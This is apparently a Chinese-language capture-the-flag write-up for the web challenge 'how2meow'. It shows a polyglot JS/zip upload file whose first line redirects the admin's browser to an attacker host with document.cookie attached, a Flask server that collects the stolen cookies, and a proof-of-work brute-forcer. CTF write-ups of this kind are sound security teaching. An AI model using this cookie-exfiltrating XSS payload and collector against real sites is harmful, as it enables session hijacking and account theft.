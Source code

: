 # how2meow

Web, 251/500 Points

Auther: **kaibro**

Writeup By: **yctseng1227**

## Description

> 由於官方題目網站已關閉，以下只能簡述題目

從題目給的網站，我們有三種操作頁面大致如圖。
![](./arch.png)

## Solution

> 由於官方題目網站已關閉，以下只能拿競賽期間的截圖作為示意圖

### 初步操作

- Meow me

    隨意輸入字串，送出後只會吐出輸入的的字串。

- Meow Uploader

    上傳任何檔案，送出後只會吐出該檔案的副檔名。

    另外還有提供 `Meow src` 可以從source code觀察後台執行方式。

- Report to admin

    可以輸入URL以及PoW驗證，很明顯是拿flag的最後一步。


### 實際操作

從 `Meow me` 頁面按下`F12`可以發現亮了一大片紅字 =口=!!

![](./01.png)

拿去 [CSP-evaluator](https://csp-evaluator.withgoogle.com/) 發現該網站缺少CSP機制，因此照理講是可以餵一些JS code從外部進行攻擊。

從 `Meow Uploader` 可以點 `Meow src`(source code) 發現上傳只接受 `.meow` 的檔案，除了檢查含有 "edu-ctf" 字串，還會針對裡頭的壓縮檔執行 `unzip` ，執行其中可執行的程式碼。

因此配合前面提到的 `Meow me` ，我們可以對剛檔案做一些壞壞的事^~^+


[m.meow]()
```
document.location='http://140.117.xxx.xxx:9487/?c=' + document.cookie;
/*
PK
     ?],P??wI        meowUT	 Ж^Ԗ^ux ?  ?  edu-ctf
PK
     ?],P??wI               ??    meowUT Ж^ux ?  ?  PK      J   F     
alert(1)
*/
````


以 `m.meow` 來說，除了原本壓縮檔的binary code和字串"edu-ctf"，我們在開頭插入JS code，想藉由跳轉的方式，讓admin的cookies能夠自動傳到我們自己建的伺服器中，而該檔案上傳到官方伺服器後，會出現該檔案的位置（示意圖如下）。

![](./03.png)


既然有了檔案在官方伺服器的位置，那我們也能夠利用 `Meow me` 輸入JS code去觸發該檔案讓其執行`m.meow`內的JS code（示意圖如下）。

![](02.png)

作為Web初學者，下方也說明一下如何快速自建伺服器。

> 作業環境 Ubuntu 18.04 / Python 3.6

```shell
sudo pip3 install flask
sudo pip3 install flask_cors
python3 app.py
```

[app.py]()
```python=
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route('/')
def index():
    cookie = request.args.get('c', None)
    if cookie:
        return cookie
    return 'hELLo'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9487)
```

建好伺服器後，送出 `Meow me` 的時候應該多少會收到PHPSESSID，那就是有成功運作～

而 `Meow me` 頁面送出 URL request 就是我們最後要拿去 `Report to admin` 的XSS URL。

除此之外，還需要計算PoW，相關介紹可以參考另一篇 Writeup [Ponzi Scheme](../Ponzi\ Scheme/readme.md)，不過作法上可以直接Python用排列組合爆搜答案即可。

```python
#!/usr/bin/env python3
import itertools
import string
from hashlib import *
from pwn import *

cond = "kaibro"
#cond = r.recvuntil("'").decode('ascii').rstrip("'")
ans = ''
alphanumeric = string.ascii_uppercase + string.ascii_lowercase + string.digits
for s in itertools.product(alphanumeric, repeat=4):
    if md5(('%s%s'%(cond, ''.join(s))).encode('utf-8')).hexdigest().startswith('6b509'):
        ans = cond + ''.join(s)
        break

print(ans)
```

最後送出 `Report to admin` 結果如下，可以從自建的伺服器收到官方傳過來的 admin's cookies，稍微整理一下就是FLAG啦！


![](./04.png)


**`FLAG{u_r_m3ow_xss_m4ster}`**


---

延伸閱讀：

- [同源政策（Same Origin Policy）](https://medium.com/@jaydenlin/same-origin-policy-同源政策-一切安全的基礎-36432565a226)